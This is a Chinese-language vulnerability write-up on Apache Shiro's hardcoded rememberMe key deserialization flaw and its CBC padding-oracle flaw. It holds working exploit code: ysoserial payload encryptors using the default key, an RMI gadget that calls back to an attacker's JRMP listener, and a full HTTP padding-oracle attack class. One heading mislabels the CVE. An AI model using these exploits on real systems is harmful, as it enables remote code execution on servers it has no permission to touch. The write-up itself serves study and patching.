

## CVE-2016-6802

### 漏洞信息

* 漏洞编号：CVE-2016-4437 / CNVD-2016-03869 / SHIRO-550
* 影响版本：shiro 1.x < 1.2.5
* 漏洞描述：利用**硬编码**的密钥构造rememberMe参数，进行**反序列化攻击**

### 漏洞详解

* 实验环境：shiro1.2.4（tomcat）[JavaThings/shirodemo at master · phith0n/JavaThings](https://github.com/phith0n/JavaThings/tree/master/shirodemo)

```xml
<dependency>
  <groupId>org.apache.shiro</groupId>
  <artifactId>shiro-core</artifactId>
  <version>1.2.4</version>
</dependency>
<dependency>
  <groupId>org.apache.shiro</groupId>
  <artifactId>shiro-web</artifactId>
  <version>1.2.4</version>
</dependency>
```

#### 代码分析

##### shiro cookie rememberMe的生成过程

在登陆时勾选remember me，在`CookieRememberMeManager#rememberSerializedIdentity`打上断点，对程序进行调试，

根据这个函数名称还有代码我们可以看出，第二个参数`byte[] serialized`即为cookie中的rememberMe，它在这个函数中被base64编码后添加到此次请求的response中


我们向上追溯`byte[] serialized`的生成过程，发现在`AbstractRememberMeManager#rememberIdentity`调用函数`convertPrincipalsToBytes`生成了该数组，接着分析该函数

```java
 protected byte[] convertPrincipalsToBytes(PrincipalCollection principals) {
        // serialize使用一个序列化器对principals进行序列化
        // 序列化器有一个默认的DefaultSerializer，就是通常的序列化操作；也可以手动指定序列化器
        byte[] bytes = serialize(principals);
        // 这里的if分支判断是否有加密器，有的话对序列化结果进行加密
        // 默认是采用的AesCipherService，从名字也可以看出这里是AES加密，加密器代码就不具体分析了
        if (getCipherService() != null) {
            bytes = encrypt(bytes);
        }
        return bytes;
    }

// 构造函数，设置了默认的反序列化器、加密函数和加密秘钥
// 重要的是这里的加密和解密秘钥默认是一个硬编码的秘钥kPH+bIxk5D2deZiIxcaaaA==
public AbstractRememberMeManager() {
    this.serializer = new DefaultSerializer<PrincipalCollection>();
    this.cipherService = new AesCipherService();
    setCipherKey(DEFAULT_CIPHER_KEY_BYTES);
}
```

我们稍微关注一下反序列化的对象`PrincipalCollection principals`，其实从调试的对象数据来看，看得出这是一个与用户信息相关的对象


##### shiro rememberMe 反序列化的过程

既然弄清了rememberMe实际上是一个AES加密的序列化对象，那它大概率还是要反序列化的，重要的是漏洞版本的秘钥都是硬编码的，我们可以构造出rememberMe。

接着，我们来分析rememberMe是否有反序列化的过程，具体过程是怎么样的，我们是否可以构造一个恶意的序列化对象进行攻击。

如果rememberMe需要反序列化，那么必定要先进行解密，因此可以查看`AbstractRememberMeManager`中解密秘钥的属性来确定代码，于是定位到了解密方法`AbstractRememberMeManager#decrypt`



我们向后运行，来到了`AbstractRememberMeManager#convertBytesToPrincipals`，这里的deserialize是使用序列化器进行反序列化操作，默认的反序列化器就是通常的反序列化操作，于是在这里，我们确定了反序列化点。


继续往后，反序列化后返回到了`AbstractRememberMeManager#getRememberedPrincipals`中，在这个方法里，我们也看到了反序列化字符串的来源`getRememberedSerializedIdentity`


我们现在向前追溯，查看序列化对象是否是我们可控的，在此处打上断点继续调试，进入该方法后，来到了`CookieRememberMeManager#getRememberedSerializedIdentity`，逻辑比较简单，读取http中的key为rememberMe的cookie值，将其base64解码后返回

```java
protected byte[] getRememberedSerializedIdentity(SubjectContext subjectContext) {

        if (!WebUtils.isHttp(subjectContext)) {
            if (log.isDebugEnabled()) {
                String msg = "SubjectContext argument is not an HTTP-aware instance.  This is required to obtain a " +
                        "servlet request and response in order to retrieve the rememberMe cookie. Returning " +
                        "immediately and ignoring rememberMe operation.";
                log.debug(msg);
            }
            return null;
        }

        WebSubjectContext wsc = (WebSubjectContext) subjectContext;
        if (isIdentityRemoved(wsc)) {
            return null;
        }

        HttpServletRequest request = WebUtils.getHttpRequest(wsc);
        HttpServletResponse response = WebUtils.getHttpResponse(wsc);

        String base64 = getCookie().readValue(request, response);
        // Browsers do not always remove cookies immediately (SHIRO-183)
        // ignore cookies that are scheduled for removal
        if (Cookie.DELETED_COOKIE_VALUE.equals(base64)) return null;

        if (base64 != null) {
            base64 = ensurePadding(base64);
            if (log.isTraceEnabled()) {
                log.trace("Acquired Base64 encoded identity [" + base64 + "]");
            }
            byte[] decoded = Base64.decode(base64);
            if (log.isTraceEnabled()) {
                log.trace("Base64 decoded byte array length: " + (decoded != null ? decoded.length : 0) + " bytes.");
            }
            return decoded;
        } else {
            //no cookie set - new site visitor?
            return null;
        }
    }
```

##### 没有分析的地方（TODO）

这里为了反序列化攻击分析了与序列化和反序列化相关的代码，但是没有深入去分析反序列化后的对象是如何被使用的，毕竟身份验证是通过这个对象进行的，在拿到了shiro key但是没有找到利用链的情况下，是否可以在这个对象上做做文章呢？这个问题后续再分析

#### 反序列化链的选择

反序列化攻击的前置是找到一条利用链，而且最好这条链子所需的类是仅仅依赖于出现反序列化点的库和jre的。这里也是一样的，我们不能寄希望于于存在Shiro550的目标一定引用了存在其他利用链的依赖。

##### 不依赖于CommonsCollections的CB1

详细分析见之前的文章（TODO）

这里将代码略作修改添加到ysoserial中

##### 二次反序列化（TODO）

依稀记得曾经看到过相关文章，可以通过二次反序列化解决依赖问题，后续有机会再补充。

#### Tomcat环境下的利用链

##### Tomcat环境下使用改造CC6

见之前的文章（TODO）

这里将代码略作修改添加到ysoserial中

##### Tomcat环境下使用JRMPClient链

由于JRMPClient链不依赖三方库中的类，在JRMPClient（jdk241之前）支持的版本下可以利用。

* jdk231之前，使用ysoserial生成恶意对象并开启而已的JRMP服务

```shell
# 打开JRMP恶意服务端
# 注意这里利用链的是否适用于当前java版本，必要依赖是否存在,1999为恶意服务监听端口
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1999 CommonsCollections6 "calc.exe"
```

在ysoserial中实现加密功能

```java
// 加密工具类
public class ShiroEncrypt {
    public static String shiroEncryptCBC(byte[] needEncrypt, String key) {
        AesCipherService aes = new AesCipherService();
        byte[] byteKey =
            java.util.Base64.getDecoder().decode(key);
        ByteSource ciphertext = aes.encrypt(needEncrypt, byteKey);
        return ciphertext.toString();
    }

    // TODO
    public static String shiroEncryptGCM(byte[] needEncrypt, String key) {
        return null;
    }
}

// exploit模块下添加类生成加密payload
import ysoserial.Serializer;
import ysoserial.payloads.CommonsCollections1;
import ysoserial.payloads.ObjectPayload;
import ysoserial.payloads.util.ShiroEncrypt;

public class ShiroGadgetEncrypt {
    public static void main(String[] args) throws Exception {
        // 处理传入参数，key 加密模式 (CBC,GCM) gadget链 命令
        final String key = args[0].trim();
        final String encryptMode = args[1].trim();
        final String gadget = CommonsCollections1.class.getPackage().getName() +  "." +  args[2].trim();
        final String command = args[3].trim();

        final Class<? extends ObjectPayload> payloadClass = (Class<? extends ObjectPayload>) Class.forName(gadget);
        ObjectPayload payloadObj = payloadClass.newInstance();
        Object payload = payloadObj.getObject(command);
        byte[] ser = Serializer.serialize(payload);

        String encryptString;
        if (encryptMode.equals("CBC")){
            encryptString = ShiroEncrypt.shiroEncryptCBC(ser,key);
            System.out.println(encryptString);
        }else if(encryptMode.equals("GCM")){
            // TODO
        }else {
            System.out.println("Unknown encrypt mode: " + encryptMode);
        }
    }
}
```

```shell
# 参数：秘钥 加密模式 gadget command
java -cp ysoserial-all.jar ysoserial.exploit.ShiroGadgetEncrypt kPH+bIxk5D2deZiIxcaaaA== CBC CommonsCollections1 calc
```

* jdk231<=version<jdk241时，由于jdk对于JRMP反序列化的修复，ysoserial中的JRMPClient无法使用，但是有另一条类似思路实现的链子可以利用[Trinhs RMI 注册表旁路 |MOGWAI 实验室 (mogwailabs.de)](https://mogwailabs.de/en/blog/2020/02/an-trinhs-rmi-registry-bypass/)

```shell
# 同样先打开恶意JRMP服务
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1999 CommonsCollections6 "calc.exe"
```

在ysoserial中添加该链

```java
package ysoserial.payloads.rmi;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import ysoserial.payloads.ObjectPayload;
import ysoserial.payloads.util.Reflections;
import java.lang.reflect.Constructor;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.server.*;
import java.util.Random;

public class RMIConnectWithUnicastRemoteObject implements ObjectPayload<Object> {
    public Object getObject(final String command) throws Exception {
        String host;
        int port;
        int sep = command.indexOf(':');
        if ( sep < 0 ) {
            port = new Random().nextInt(65535);
            host = command;
        }
        else {
            host = command.substring(0, sep);
            port = Integer.valueOf(command.substring(sep + 1));
        }
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint(host, port);

        //1.UnicastRef对象 -> RemoteObjectInvocationHandler
        //obj是UnicastRef对象，先RemoteObjectInvocationHandler封装
        RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler((RemoteRef) new UnicastRef(new LiveRef(id, te, false)));
        //2. RemoteObjectInvocationHandler -> RMIServerSocketFactory接口
        //RemoteObjectInvocationHandler通过动态代理封装转化成RMIServerSocketFactory
        RMIServerSocketFactory serverSocketFactory = (RMIServerSocketFactory) Proxy.newProxyInstance(
            RMIServerSocketFactory.class.getClassLoader(),// classloader
            new Class[] { RMIServerSocketFactory.class, Remote.class}, // interfaces to implements
            handler// RemoteObjectInvocationHandler
        );
        //通过反射机制破除构造方法的可见性性质，创建UnicastRemoteObject实例
        Constructor<?> constructor = UnicastRemoteObject.class.getDeclaredConstructor(null); // 获取默认的
        constructor.setAccessible(true);
        UnicastRemoteObject remoteObject = (UnicastRemoteObject) constructor.newInstance(null);
        //3. RMIServerSocketFactory -> UnicastRemoteObject
        //把RMIServerSocketFactory塞进UnicastRemoteObject实例中
        Reflections.setFieldValue(remoteObject, "ssf", serverSocketFactory);
        return remoteObject;
    }
}
```

```shell
# 参数：秘钥 加密模式 gadget command
java -cp ysoserial-all.jar ysoserial.exploit.ShiroGadgetEncrypt kPH+bIxk5D2deZiIxcaaaA== CBC rmi.RMIConnectWithUnicastRemoteObject 127.0.0.1:1999
```

* **jdk241<=version，JRMPClient无法使用**

### 漏洞修复

* 漏洞产生的根本原因是默认使用硬编码秘钥
* `Shiro` 在 `1.2.5` 中对此漏洞进行了修复。系统在启动的时候会生成一个新`key`，用户也可以手动配置一个`cipherKey`。
* **虽然修复了，但如果知道用户设置的秘钥，还是可以利用该漏洞**

### 漏洞利用

* 使用之前漏洞分析的代码

* 工具 [SummerSec/ShiroAttack2: shiro反序列化漏洞综合利用,包含（回显执行命令/注入内存马）修复原版中NoCC的问题 https://github.com/j1anFen/shiro_attack](https://github.com/SummerSec/ShiroAttack2)，这个工具的优点在于有好几条CB链，适用的环境较多

在1.4.2及以后，加密方式更改为了AES GCM，高版本利用时需要更改加密方式


## CVE-2019-12422

### 漏洞信息

* 漏洞编号：CVE-2019-12422 / CNVD-2016-07814 /SHIRO-721
* 影响版本：shiro < 1.4.2
* 漏洞描述：RememberMe**默认通过 AES-128-CBC 模式加密**，易受**Padding Oracle Attack**攻击

### 漏洞详解

* 实验环境：shiro1.4.1 (配置tomcat运行) [Release shiro-root-1.4.1 · apache/shiro](https://github.com/apache/shiro/releases/tag/shiro-root-1.4.1)

#### Padding Oracle Attack

* 参考 [skysec.top](https://skysec.top/2017/12/13/padding-oracle和cbc翻转攻击/)

##### 了解CBC加密模式

AES是一种分组密码，以AES128为例，它的密钥长度为128位，不论明文长多为多少，都要将其分为128位一块来进行加密。AES本身只定义了一块明文如何进行加密，当明文分为多块时，如何进行加密呢，这时就要结合加密模式进行加密。除了马上要介绍的CBC，最简单的加密模式是ECB，用相同的秘钥直接对每一块进行加密得到密文，但这种模式很不安全。


**CBC加密模式**：

这里要介绍的CBC也是加密模式的一种，加解密过程如下图：


以加密过程为例，其中的x是明文，IV是一个和分组长度相同的初始向量，ek是加密函数（这里即AES加密），y为密文，解密过程中的dk是解密函数（AES解密）。这里的IV很重要，它是进行攻击的关键，在加密时，它要与明文异或得到一个中间状态再输入加密函数；在解密时它与密文解密的中间结果进行异或获取明文。IV是**公开的**，在shiro框架中，包含在RemenberMe里，它是**攻击者可控的**。


**填充**：

回到刚刚谈到的分组问题上，有一个问题是明文长度不总是秘钥长度的倍数，这个时候最后一块如何处理呢，这就涉及到**填充**，要将最后一个分组填充到分组长度。CBC有如下几种填充方式：

* `NoPadding`：不填充，明文长度必须是 `16 Bytes` 的倍数。
* `PKCS5Padding`：`PKCS7Padding`跟`PKCS5Padding`的区别就在于数据填充方式，`PKCS7Padding`是缺几个字节就补几个字节的`0`，而`PKCS5Padding`是缺几个字节就补充几个字节的几，比如缺`6`个字节，就补充`6`个字节的`6`，如果不缺字节，就需要再加一个字节块。
* `ISO10126Padding`：以随机字节填充 , 最后一个字节为填充字节的个数。

Shiro CBC使用的是 **PKCS5Padding**方式进行填充，所以填充值只可能为:

```txt
# B为明文的非填充字节
B B B B B B B 0x01
B B B B B B 0x02 0x02
B B B B B 0x03 0x03 0x03
B B B B 0x04 0x04 0x04 0x04
B B B 0x05 0x05 0x05 0x05 0x05
B B 0x06 0x06 0x06 0x06 0x06 0x06
B 0x07 0x07 0x07 0x07 0x07 0x07 0x07
0x08 0x08 0x08 0x08 0x08 0x08 0x08 0x08
```

如果某次解密出的**最后一个**明文分组不为上述结果中的一个，这就说明密文或者IV出现了错误。

##### 攻击原理

能进行攻击的两个必要前提是——1. **我们能够辨别我们的密文在解密后是否拥有正确的填充序列**。2. **我们可以控制IV和密文**

在此前提下，我们接着进行攻击，假设我们拿到IV+密文如下，4组，一组8字节:

```txt
0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08,
0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F, 0x10,
0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17, 0x18,
0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F, 0x20, 
```

我们将IV设置为0x00 00 00 00 00 00 00 00，与第一组密文一起发送给服务器，这意味着第一组密文变为了最后一组密文（需要填充），它解密后与IV异或的结果等于它本身。我们接着遍历IV的最后一个字节从0x00到0xff，当第一次出现填充序列正确时，记IV最后一位为m，我们要进行判断具体是哪一种填充序列（**可能由于非0x01结尾的概率较小，网上许多文章忽略了这一点**）。

如何判断呢？抽象一下这个问题：已知一个序列为上面8个序列中的一种，有向量IV可以与它做异或，且我们知道异或的结果是否为8个序列中的一种，如何判断序列是哪一种？我这里举一个例子，可能不是最优解：

1. 先判断是否为`B B B B B B B 0x01`或`B B B B B B B 0x02`，判断方法如下：
   1. 1 选择IV`0x00 0x00 0x00 0x00 0x00 0x00 X 0X03^m`，0x03^0x01==0x02，我们遍历x，如果存在**一种情况**使得服务器返回序列正确，这就说明序列为`B B B B B B B 0x01`，存在多种说明为`B B B B B B B 0x02`，不存在说明为其他
2. 若不为`B B B B B B B 0x01`和`B B B B B B B 0x02`，使用以下IV与序列进行异或，若哪次服务器返回的结果为序列正确，说明序列为与其对应的序列

```txt
0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x02^m # 对应序列为B B B B B 0x03 0x03 0x03，后面按顺序类推
0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x05^m
0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x04^m
0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x07^m
0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x06^m
0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x09^m
```

参考代码在后续攻击代码中给出。

我们一旦确定序列，例如为`B B B B B B 0x02 0x02`，我们就知道密文解密后（暂且将密文经过解密算法得到的结果称之为**middle**）的后两位为0x02，接着我们更改IV为`00 00 00 00 00 B 0x01 0x01`，异或的结果为`B B B B B B 0x03 0x03`，这个时候我们就对IV的倒数第三位进行爆破，如果这个时候服务器告诉我们填充序列正确，就说明middle此时为`B B B B B 0x03 0x03 0x03`，结合此刻IV的倒数第三位我们就可以推出middle倒数第三位的值，以此类推，我们就可以推理出middle的所有值，再结合初始的合法IV即可推理出明文。此外，在得知middle的值后，我们甚至还可以通过更改IV的值来将middle异或为我们想要的结果。

**几个问题**：

1. 正常明文序列中能否出现填充字符
2. 如果出现如何解决
3. 这对我们的攻击有何影响
4. 为什么shiro攻击中需要一组RememberMe：
   1. 作为前缀
   2. java反序列化字节的尾部添加冗余字节不影响其反序列化


#### 对shiro进行攻击

##### CBC翻转攻击

CBC翻转攻击基于之前的原理，攻击目标不是窃取明文，而是**使得目标对密文解密后得到攻击者预期的明文**。

这个过程要结合CBC解密的过程看，假设我们要控制目标将一个三块128bit的密文解密为我们想要的明文，我们可以**随意**构造**第三块**128位的数据，我们先将其和IV一起发送给服务器，按照之前介绍的Padding Oracle Attack攻击原理，我们可以得知这块数据解密后的middle结果，这就意味着，我们可以通过控制IV的值将最终的明文异或为我们想要的样子。接着，我们将IV（能够得到想要明文的IV）作为第二块密文，再将其与一个新的IV一起发给服务器，按照刚刚的步骤，我们又得到了一个想要的IV。以此类推，再将此时的IV作为第一块密文，并得到最后一个IV。此时，IV与三块加密数据构造完成，而且，我们在不知道秘钥的情况下构造了一个解密后符合我们预期的密文。

##### shiro721为什么需要合法RememberMe

shiro721相关工具在使用时需要提供一个合法的RememberMe cookie，而且网上很多文章也提到对shiro721的攻击需要取得一个合法的RememberMe cookie，但是貌似都没有解释为什么，这个地方非常有必要解释一下。

前面分析过实现Padding Oracle Attack攻击的前提条件：1. **我们能够辨别我们的密文在解密后是否拥有正确的填充序列**。2. **我们可以控制IV和密文**。

第二点经过之前的分析，我们已经了解到IV和密文是我们可控的，关键点在于1。在一个web场景下，Padding Oracle Attack设想的场景是这样的：

1. 填充序列错误，服务器返回500或者提示解密错误
2. 填充序列正确，但是解密后的明文不符合服务器的其他要求（例如未通过鉴权、shiro中的反序列化操作失败等），提示我们鉴权失败、反序列失败等，我们可以知道填充序列正确
3. 填充和明文都没有问题，服务器返回200，其他信息提示一切正常

我们回到shiro框架上，如果shiro框架出现填充序列错误会发生什么，进行调试定位到PKCS5Padding#unpad，代码对填充格式进行了判断，如果不正确，会返回-1：


这个-1在`CipherCore#fillOutputBuffer`中也被返回，到`CipherCore#doFinal`中利用这个-1做了一个复制数组的操作，会抛出异常


一路异常抛出，最终在`AbstractRememberMeManager#getRememberedPrincipals`中被捕捉，操作是在response中添加一个`rememberMe=deleteMe`


然而有一个问题是，RememberMe在解密后还会进行反序列化操作，如果反序列化失败也会抛出异常，而且最终也会在`AbstractRememberMeManager#getRememberedPrincipals`中被捕获，同样地在response中添加一个`rememberMe=deleteMe`。

这就使得我们无法辨析填充序列到底是不是正确的，那是否有办法区分这两种情况呢？很幸运，由于java反序列化的特性，在java序列化字节的尾部添加一些无用的字节是不影响java反序列化的，所以我们可以在一个合法的RememberMe尾部添加两个8字节分组，第一个分组作为IV使用，第二个分组作为我们要翻转攻击的密文。如果填充正确，尾部多余的字节不影响RememberMe反序列化，不会抛出异常返回`rememberMe=deleteMe`，这样一来，我们就可以辨析填充序列是否正确。

##### 攻击代码

参考[longofo/PaddingOracleAttack-Shiro-721: Shiro-721 Padding Oracle Attack](https://github.com/longofo/PaddingOracleAttack-Shiro-721)，添加到ysoserial，ArrayUtil直接复制过去，Poracle做了一些修改以适应ysoserial，添加了之前分辨填充模式的代码，需要把该项目的日志配置文件也移植到ysoserial


```java
package ysoserial.exploit;

import org.apache.http.Header;
import org.apache.http.client.methods.CloseableHttpResponse;
import org.apache.http.client.methods.HttpGet;
import org.apache.http.impl.client.CloseableHttpClient;
import org.apache.http.impl.client.HttpClients;
import org.apache.log4j.Logger;
import ysoserial.Serializer;
import ysoserial.exploit.utils.ArrayUtil;
import ysoserial.payloads.CommonsCollections1;
import ysoserial.payloads.ObjectPayload;
import java.io.IOException;
import java.util.Arrays;
import java.util.Base64;
import java.util.Random;

public class Shiro721Exploit {
    private static Logger logger = Logger.getLogger(Shiro721Exploit.class.getClass());
    private byte[] plainText;
    private int blockSize;
    private int encryptBlockCount;
    private String url;
    private String loginRememberMe;
    private int requestCount;

    public Shiro721Exploit(byte[] plainText, int blockSize, String url, String loginRememberMe) throws IOException {
        this.blockSize = blockSize;
        this.plainText = this.paddingData(plainText);
        this.url = url;
        this.loginRememberMe = loginRememberMe;
        this.requestCount = 0;
    }


    // payload填充
    private byte[] paddingData(byte[] data) throws IOException {
        int paddingLength = this.blockSize - (data.length % this.blockSize);

        //计算要填充哪一个字节
        byte paddingByte = (byte) paddingLength;
        byte[] paddingBytes = new byte[paddingLength];
        Arrays.fill(paddingBytes, paddingByte);

        return ArrayUtil.mergerArray(data, paddingBytes);
    }

    private byte[] getBlockEncrypt(byte[] PlainTextBlock, byte[] nextCipherTextBlock) throws Exception {
        byte[] tmpIV = new byte[this.blockSize];
        byte[] encrypt = new byte[this.blockSize];
        Arrays.fill(tmpIV, (byte) 0);

        // 爆破nextCipherTextBlock在AES解密后的middle值
        // rmpIV为当前爆破出的middle值
        for (int index = this.blockSize - 1; index >= 0; index--) {
            /* 分辨填充模式的代码，测试过几次，可以正常使用，但是笔者代码能力有限，放在这里还是仅作参考
            if(index==this.blockSize-1){
                index=identifyType(tmpIV,nextCipherTextBlock)+1;
                continue;
            }
            */
            tmpIV[index] = this.findCharacterEncrypt(index, tmpIV, nextCipherTextBlock);
            logger.debug(String.format("Current string => %s, the %d block", ArrayUtil.bytesToHex(ArrayUtil.mergerArray(tmpIV, nextCipherTextBlock)), this.encryptBlockCount));
        }

        for (int index = 0; index < this.blockSize; index++) {
            encrypt[index] = (byte) (tmpIV[index] ^ PlainTextBlock[index]);
        }
        return encrypt;
    }

    private boolean checkPaddingAttackRequest(String rememberMe) throws IOException {
        CloseableHttpClient httpClient = HttpClients.createDefault();
        HttpGet httpGet = new HttpGet(this.url);
        CloseableHttpResponse response = null;
        boolean success = true;

        httpGet.addHeader("User-Agent", "Mozilla/5.0");
        httpGet.addHeader("Referer", this.url);
        httpGet.addHeader("Cookie", String.format("rememberMe=%s", rememberMe));

        try {
            response = httpClient.execute(httpGet);
            this.requestCount += 1;
            Header[] headers = response.getAllHeaders();
            if (response.getStatusLine().getStatusCode() == 200) {
                for (Header header : headers) {
                    if (header.getName().equals("Set-Cookie") && header.getValue().contains("rememberMe=deleteMe"))
                        success = false;
                }
            }
        } catch (IOException e) {
            logger.error("Request error when checkPaddingAttackRequest", e);
        } finally {
            if (response != null) response.close();
            httpClient.close();
        }
        return success;
    }

    private boolean serverType(byte[] preBlock, byte[] nextCipherTextBlock) throws IOException {
        // 将当前IV和要翻转攻击的分组拼接到合法cookie尾部
        byte[] tmpBLock1 = Base64.getDecoder().decode(this.loginRememberMe);
        byte[] tmpBlock2 = ArrayUtil.mergerArray(preBlock, nextCipherTextBlock);
        byte[] tmpBlock3 = ArrayUtil.mergerArray(tmpBLock1, tmpBlock2);
        String remeberMe = Base64.getEncoder().encodeToString(tmpBlock3);
        return this.checkPaddingAttackRequest(remeberMe);
    }

    private int identifyType(byte[] tmpIV, byte[] nextCipherTextBlock) throws Exception {
        byte[] preBLock = new byte[this.blockSize];
        Arrays.fill(preBLock, (byte) 0);

        // 爆破IV最后一位，找到合法填充序列
        byte IV;
        for (int c = 0; c < 256; c++) {
            preBLock[this.blockSize-1] = (byte) c;
            if (this.serverType(preBLock,nextCipherTextBlock)) {
                // 记录爆破成功的IV值
                IV = (byte) c;

                byte[] testIv = new byte[this.blockSize];
                Arrays.fill(testIv, (byte) 0);
                testIv[this.blockSize-1] = (byte)(3^IV);
                int count = 0;
                int i=0;
                while (count<2&&i<256){
                    testIv[this.blockSize-2] = (byte) i;
                    i++;
                    if (this.serverType(testIv,nextCipherTextBlock))
                        count++;
                }

                // 根据已经确定的填充序列，返回下一个要爆破的位
                if(count==1) {
                    tmpIV[this.blockSize-1]=(byte)(IV^1);
                    return this.blockSize - 2;
                }
                else if (count==2) {
                    tmpIV[this.blockSize-1]=(byte)(IV^2);
                    tmpIV[this.blockSize-2]=(byte)2;
                    return this.blockSize - 3;
                }else {
                    Arrays.fill(testIv, (byte) 0);
                    for (int j=3;j<=this.blockSize;j++){
                        // 确定是除0x01和0x02外的哪个填充序列
                        testIv[this.blockSize-1]=(byte)(j^1^IV);
                        if (this.serverType(testIv,nextCipherTextBlock)) {
                            // 计算已经确定的中间值
                            tmpIV[this.blockSize - 1] = (byte) (IV ^ j);
                            for (int k = j; k > 1; k--) {
                                tmpIV[this.blockSize - k] = (byte) j;
                            }
                            // 返回下一个要爆破的middle位
                            return this.blockSize - j - 1;
                        }
                    }
                }
            }
        }

        throw new Exception("Occurs errors when find encrypt character, could't find a suiteable Character!!!");
    }

    private byte findCharacterEncrypt(int index, byte[] tmpIV, byte[] nextCipherTextBlock) throws Exception {
        if (nextCipherTextBlock.length != this.blockSize) {
            throw new Exception("CipherTextBlock size error!!!");
        }

        // 填充字符
        byte paddingByte = (byte) (this.blockSize - index);

        byte[] preBLock = new byte[this.blockSize];
        Arrays.fill(preBLock, (byte) 0);

        // preBLock为当前IV，它保证index+1及以后的位为paddingByte，我们需要爆破index位
        // IV为已经爆破出的middle值
        for (int ix = index; ix < this.blockSize; ix++) {
            preBLock[ix] = (byte) (paddingByte ^ tmpIV[ix]);
        }

        for (int c = 0; c < 256; c++) {
            //nextCipherTextBlock[index] < 256，那么在这个循环结果中构成的结果还是range(1,256)
            //所以下面两种写法都是正确的，当时看到原作者使用的是第一种方式有点迷，测试了下都可以
//            preBLock[index] = (byte) (paddingByte ^ nextCipherTextBlock[index] ^ c);
            preBLock[index] = (byte) c;

            // 将当前IV和要翻转攻击的分组拼接到合法cookie尾部
            byte[] tmpBLock1 = Base64.getDecoder().decode(this.loginRememberMe);
            byte[] tmpBlock2 = ArrayUtil.mergerArray(preBLock, nextCipherTextBlock);
            byte[] tmpBlock3 = ArrayUtil.mergerArray(tmpBLock1, tmpBlock2);
            String remeberMe = Base64.getEncoder().encodeToString(tmpBlock3);
            if (this.checkPaddingAttackRequest(remeberMe)) {
                return (byte) (preBLock[index] ^ paddingByte);
            }
            /*
            if (this.checkPaddingAttackRequest(remeberMe)) {
                return (byte) (preBLock[index] ^ paddingByte);
            }
            */
        }
        throw new Exception("Occurs errors when find encrypt character, could't find a suiteable Character!!!");
    }

    // 入参nextBLock为要翻转攻击的分组，未null时表示为payload的最后一个分组
    public String encrypt(byte[] nextBLock) throws Exception {
        logger.debug("Start encrypt data...");
        byte[][] plainTextBlocks = ArrayUtil.splitBytes(this.plainText, this.blockSize);

        if (nextBLock == null || nextBLock.length == 0 || nextBLock.length != this.blockSize) {
            logger.warn("You provide block's size is not equal blockSize,try to reset it...");
            nextBLock = new byte[this.blockSize];
        }
        byte randomByte = (byte) (new Random()).nextInt(127);
        Arrays.fill(nextBLock, randomByte);

        // 将payload翻转，由于CBC解密特性，CBC翻转攻击从payload的尾部开始
        byte[] result = nextBLock;
        byte[][] reverseplainTextBlocks = ArrayUtil.reverseTwoDimensionalBytesArray(plainTextBlocks);
        this.encryptBlockCount = reverseplainTextBlocks.length;
        logger.info(String.format("Total %d blocks to encrypt", this.encryptBlockCount));

        for (byte[] plainTextBlock : reverseplainTextBlocks) {
            // 每一块的CBC翻转攻击，nextBLock为当前翻转分组，plainTextBlock为要翻转为的结果，返回的IV作为下一块翻转分组
            nextBLock = this.getBlockEncrypt(plainTextBlock, nextBLock);
            result = ArrayUtil.mergerArray(nextBLock, result);

            this.encryptBlockCount -= 1;
            logger.info(String.format("Left %d blocks to encrypt", this.encryptBlockCount));
        }

        logger.info(String.format("Generate payload success, send request count => %s", this.requestCount));

        return Base64.getEncoder().encodeToString(result);
    }


    public static void main(String[] args) throws Exception {

        String targetUrl = args[0];
        String rememberMeCookie = args[1];
        int blockSize = Integer.parseInt(args[2]);
        String gadget = CommonsCollections1.class.getPackage().getName() +  "." +  args[3].trim();
        String command = args[4];


        final Class<? extends ObjectPayload> payloadClass = (Class<? extends ObjectPayload>) Class.forName(gadget);
        ObjectPayload payloadObj = payloadClass.newInstance();
        Object payload = payloadObj.getObject(command);
        byte[] ser = Serializer.serialize(payload);

        Shiro721Exploit poracle = new Shiro721Exploit(ser, blockSize, targetUrl, rememberMeCookie);

        logger.info(String.format("Result => %s", poracle.encrypt(null)));
    }
}


```


**反序列化payload的选择：**

通过前面的分析可以看出，payload越短，我们需要爆破的时间越短，所以我们在选择payload时尽量选择短小的payload，如果目标可以出网，使用JRMPClient等从远程加载恶意代码的payload不失为一个好的选择。

### 漏洞利用

* 这个工具提供了shiro721的利用，但是缺点在于利用链不全，可以自己尝试把上面介绍的shiro550利用工具的利用链移植过来

https://github.com/feihong-cs/ShiroExploit-Deprecated.git

### 漏洞修复

* `shiro 1.4.2`开始，默认采用`GCM` 加密模式，避免此类攻击。